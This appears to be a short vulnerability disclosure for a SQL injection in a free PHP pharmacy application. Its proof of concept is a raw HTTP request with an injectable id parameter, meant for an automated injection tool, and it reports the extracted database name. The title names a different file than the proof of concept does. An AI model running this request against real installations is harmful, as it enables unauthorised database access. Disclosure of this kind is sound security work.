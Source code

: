 # farmacia-in-php has sql injection in pagamento.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
visualizar-forneccedor.php

## describe


**Code analysis**    

![image-20241127113237736](https://github.com/user-attachments/assets/0699dc16-6ba4-444f-b7e8-f594f87210ed)



## POC

```
GET /visualizar-fornecedor.php?id=1* HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ecmd5kmr6te8fpgjnri7c4up85
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

save as  1.txt

**Result**

![image-20241127112914480](https://github.com/user-attachments/assets/ebd8c19d-39c0-4771-b43c-ed0dc023f1a3)

Get databases: farmacia

![image-20241127110033174](https://github.com/user-attachments/assets/3b3491ab-6643-416f-a440-c709735132ff)